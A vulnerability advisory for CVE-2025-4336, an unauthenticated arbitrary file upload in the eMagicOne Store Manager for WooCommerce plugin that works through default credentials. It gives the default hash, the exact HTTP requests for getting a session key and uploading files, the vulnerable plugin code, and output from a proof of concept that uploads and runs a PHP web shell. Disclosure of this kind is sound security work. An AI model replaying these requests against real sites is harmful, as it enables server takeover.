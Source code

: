 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5- Unauthenticated Arbitrary File Upload via set_file Task'
date = 2025-05-23T05:00:12+00:00
hideToc = true
+++
### CVE-2025-4336

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file uploads to the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and upload arbitrary files (including PHP shells) to the WordPress root or any writable directory.



## Reproduction
* A POC [cve-2025-4336.py](https://github.com/d0n601/CVE-2025-4336/blob/main/cve-2025-4336.py) is provided to demonstrate a remote attacker uploading a web shell named `shell.php` via the default authentication mechanism, and executing remote code:

```console
python3 exploit.py https://lab1.hacker   
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"6f46bc8b67b1c8f0dc871bcec9e162c1d43f047e5c46aec7d7fdf48d8c17ed69"}
[+] Got session key: 6f46bc8b67b1c8f0dc871bcec9e162c1d43f047e5c46aec7d7fdf48d8c17ed69
[*] Uploading file...
[*] Upload response: {"response_code":20,"message":"File was successfully uploaded"}
[*] Executing Web Shell Commands...
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 23576sec preferred_lft 23576sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86363sec preferred_lft 14363sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:ef:a9:95:6a brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```


### Arbitrary File Upload
With a valid session key, an attacker can upload a file using the `set_file` task:

```http
POST /?connector=bridge&task=set_file&key=<session_key>&entity_type=.&filename=hello.txt
Content-Type: multipart/form-data

file=@hello.txt;type=text/plain
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~2250+):

```php
private function set_file() {
    // ... parameter checks ...
    if ( ! $this->shop_cart->set_file( $entity_type, $filename, self::UPLOAD_FILE_NAME ) ) {
        $this->generate_error( $this->br_errors['upload_file_error'] );
    }
}
```

`classes/class-emosmcwoocommerceoverrider.php` (lines ~440+):

```php
public function set_file( $folder, $filename, $file ) {
    $destination_path = $this->get_shop_root_dir() . "$folder/$filename";
    if ( isset( $_FILES[ $file ]['tmp_name'] ) ) {
        $tmp_name = sanitize_text_field( $_FILES[ $file ]['tmp_name'] );
        $result = move_uploaded_file( $tmp_name, $destination_path );
    }
    if ( $result ) {
        die(json_encode(array(self::CODE_RESPONSE => self::SUCCESSFUL, self::KEY_MESSAGE => 'File was successfully uploaded')));
    }
}
```

**Result:** The file is written to the WordPress root (or any specified directory).

